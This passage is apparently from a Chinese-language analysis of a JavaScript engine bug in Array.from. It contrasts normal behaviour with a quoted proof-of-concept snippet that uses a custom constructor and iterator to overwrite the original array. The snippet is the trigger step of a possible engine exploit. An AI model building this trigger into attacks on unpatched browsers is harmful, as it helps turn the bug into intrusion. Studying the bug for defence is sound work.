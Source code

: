 ![IMAGE](/assets/resources/9A0BF36012310FF93E5791C3AB5B2A10.jpg)

也就是说，当我们传进去一个数组，它会再创建一个新的数组返回，并不会影响原来的数组

来看代码，可以看到不会修改传入的数组
```javascript
let array = [1, 2, 3];
let result = Array.from(array, x => x + x);
console.log(array);
console.log(result);

> Array [1, 2, 3]
> Array [2, 4, 6]
```

但是按照Poc里的写法，就可以对原有数组做修改，成功改掉了传入的数组
```javascript
let array = [1, 2, 3];
Array.from.call(function() { return array }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 10,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
console.log(array);

> Array [0, 1, 2, 3, 4, 5, 6, 7, 8]
```
